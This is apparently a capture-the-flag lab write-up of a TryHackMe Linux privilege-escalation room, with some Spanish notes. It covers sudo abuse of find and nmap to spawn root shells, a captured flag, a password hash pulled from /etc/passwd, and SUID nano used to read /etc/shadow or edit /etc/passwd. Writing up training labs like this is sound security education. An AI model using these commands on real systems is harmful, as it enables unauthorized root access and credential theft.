 ```
sudo find . -exec /bin/sh \; -quit
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /home/ubuntu
# cat flag2.txt
THM-402028394
# 

```


#### How would you use Nmap to spawn a root shell if your user had sudo rights on nmap?  

- vamos al sitio: https://gtfobins.github.io/, y buscamos nmp

```
sudo nmap — interactive
```

#### What is the hash of frank's password?

```
sudo nano /etc/passwd


$6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwo/BJpphrPRJWjelWEz2HH.joV14aDEwW1c3CahzB1uaqeLR1
```

## Task 7 Privilege Escalation: SUID

Much of Linux privilege controls rely on controlling the users and files interactions. This is done with permissions. By now, you know that files can have read, write, and execute permissions. These are given to users within their privilege levels. This changes with SUID (Set-user Identification) and SGID (Set-group Identification). These allow files to be executed with the permission level of the file owner or the group owner, respectively.  
  
You will notice these files have an “s” bit set showing their special permission level.  
  
`find / -type f -perm -04000 -ls 2>/dev/null` will list files that have SUID or SGID bits set.

A good practice would be to compare executables on this list with GTFOBins ([https://gtfobins.github.io](https://gtfobins.github.io/)). Clicking on the SUID button will filter binaries known to be exploitable when the SUID bit is set (you can also use this link for a pre-filtered list [https://gtfobins.github.io/#+suid](https://gtfobins.github.io/#+suid)).

  The list above shows that nano has the SUID bit set. Unfortunately, GTFObins does not provide us with an easy win. Typical to real-life privilege escalation scenarios, we will need to find intermediate steps that will help us leverage whatever minuscule finding we have.

**Note**: The attached VM has another binary with SUID other than `nano`.  

The SUID bit set for the nano text editor allows us to create, edit and read files using the file owner’s privilege. Nano is owned by root, which probably means that we can read and edit files at a higher privilege level than our current user has. At this stage, we have two basic options for privilege escalation: reading the `/etc/shadow` file or adding our user to `/etc/passwd`.  
  